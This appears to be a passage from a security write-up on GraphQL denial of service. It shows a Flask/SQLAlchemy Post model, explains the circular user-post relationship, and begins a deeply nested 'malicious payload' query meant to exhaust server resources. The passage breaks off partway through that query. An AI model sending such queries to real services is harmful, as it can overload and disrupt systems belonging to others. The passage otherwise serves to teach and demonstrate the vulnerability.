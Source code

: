 ```
    body = db.Column(db.Text)
    author_id = db.Column(db.Integer, db.ForeignKey('users.uuid'))
    author = db.relationship('User', backref='post')
    
    def __repr__(self):
        return '<Post %r>' % self.title

```
we can see that each User can have multiple Post and each Post is assigned to an User. If we reflect this in GraphQL language, each posts node will have a user node that will have multiple posts node that will belong to a user that will ........... and so on.  So we are allowed to create nested querie.

## Exploitation 

> Let's exploit it!

If we craft a malicious payload like:

```
{
  allUsers {
    edges {
      node {
        username
        posts {
          edges {
            node {
              title
              authorId
              users {
                username
                posts {
                  edges {
                    node {
                      title
                      body
                      users {
                        username
                        uuid
                        username
                        uuid
                        posts {
                          edges {
                            node {
                              title
                              body
                              users {
                                username
                                posts {
                                  edges {
                                    node {
                                      title
                                      body
                                      users {
                                        posts {
                                          edges {
                                            node {
                                              users {
                                                posts {
                                                  edges {
                                                    node {
                                                      body
                                                      users {
```